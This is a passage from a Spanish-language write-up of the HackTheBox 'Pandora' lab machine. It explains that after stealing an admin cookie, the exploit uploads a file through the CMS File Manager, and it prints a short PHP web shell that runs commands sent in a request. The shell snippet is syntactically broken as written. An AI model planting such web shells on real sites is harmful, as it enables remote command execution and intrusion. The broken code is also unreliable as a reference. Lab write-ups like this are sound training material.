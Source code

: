 Analizando el código del exploit vemos que posteriormente a obtener la cookie del admin, se intenta subir un archivo.
Esto es posible dado que en el CMS tenemos varias herramientas como administradores, entre ellas un File Manager.

![File Manager](/assets/images/hackthebox/machines/pandora/filemanager.png)

![Upload File](/assets/images/hackthebox/machines/pandora/uploadfile.png)

Pues sabiendo todo esto, vamos a subir nuestra web shell en PHP para poder ejecutar comandos.

```php
<?php>
  echo "<pre>" . shell_exec($_REQUESTS['cmd']) . "</pre>";
<?>
```
